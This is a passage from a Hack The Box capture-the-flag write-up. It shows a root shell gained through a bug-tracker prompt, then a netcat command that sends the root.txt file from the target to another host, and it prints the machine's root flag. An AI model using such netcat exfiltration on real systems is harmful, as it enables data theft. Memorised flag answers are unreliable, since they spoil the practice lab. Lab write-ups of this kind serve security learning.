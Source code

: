 	------------------
	: EV Bug Tracker :
	------------------
	
	Provide Bug ID: 2
	2
	---------------
	
	# whoami
	whoami
	root


And we can see that we have root privilege on the machine.
We will use file transfer leveraging a `netcat` connection, because for some reason, we were not able to properly read the `root.txt` file's content neither with the `cat` command, nor by opening it with `vim`.

## [[File Transfer with Netcat]]

**Sender (Unix)**

	nc $TARGET $PORT < $FILE


[Shells and File Transportation with Netcat](https://int0x33.medium.com/day-24-windows-post-exploitation-shells-and-file-transfer-with-netcat-for-windows-a2ddc3557403)

![[Pasted image 20241008225227.png]]

**Root flag exfiltrated from the `/root` folder**: `af13b0bee69f8a877c3faf667f7beacf`



https://www.hackthebox.com/achievement/machine/2057492/288
![[Pasted image 20241008225256.png]]